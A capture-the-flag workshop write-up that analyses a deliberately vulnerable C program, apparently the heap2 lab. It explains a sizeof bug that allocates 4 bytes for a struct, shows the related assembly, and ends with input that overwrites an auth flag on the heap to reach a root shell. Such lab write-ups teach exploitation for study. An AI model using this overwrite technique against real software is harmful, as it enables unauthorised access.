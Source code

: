 So the first thing we notice is a struct. We will come back to this later

```C
struct auth { //note the lack of typedef
  char name[32];
  int auth;
};

struct auth *auth; // naming the struct pointer the same as the struct its self
char *service;
```




Let's look at the auth function
```code    
if(strncmp(line, "auth ", 5) == 0)
{
    auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
    memset(auth, 0, sizeof(auth));

    if(strlen(line + 5) < 31)
        strcpy(auth->name, line + 5);
}
```

and the corresponding assembly

```code
auth = malloc(sizeof(auth)); // should be sizeof(struct auth)
```

```asm
804866e:	83 ec 0c             	sub    esp,0xc
8048671:	6a 04                	push   0x4 ; only 0x4 bytes!!
8048673:	e8 08 fe ff ff       	call   8048480 <malloc@plt>
8048678:	83 c4 10             	add    esp,0x10
804867b:	a3 e8 9a 04 08       	mov    ds:0x8049ae8,eax
```
This is the main bug in this program. Because the dev wrote `sizeof(auth)` and not `sizeof(struct auth)`, there will be `0x4` bytes of memory (the size of `*auth`) allocated and not `0x24` (the size of `struct auth`).




Lets see what happens with the service case.
```code
if(strncmp(line, "service", 6) == 0)
    service = strdup(line + 7); //this will stored on the heap
```
Notice that we do not have any restrictions on the amount of memory allocated.


Let's take a look at the login command

```code    
if(strncmp(line, "login", 5) == 0)
{
  if(auth->auth)
  {
      printf("Welcome Adnim!\n");
      system("/bin/sh");
  } else
      printf("please enter your password\n");
}
```  

the most important line

```code
if(auth->auth)
```

```asm
8048751:	a1 e8 9a 04 08       	mov    eax,ds:0x8049ae8
8048756:	8b 40 20             	mov    eax,DWORD PTR [eax+0x20] ;0x20 offset
8048759:	85 c0                	test   eax,eax
804875b:	74 25                	je     8048782 <main+0x187>
```


![A basic visualization](https://github.com/kablaa/CTF-Workshop/blob/master/writeups/heap2/heap.png)

So what is happening is this: Because only 0x4 bytes are being allocated on the heap, and because `auth->auth` is at `<location of auth> + 0x20`, `service` is now located _before_ `auth->auth`. So we can overwrite the value.

so we can run
```sh
auth lessthan32bits
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
login
```

This is why we should be careful with how we name our variables kids!
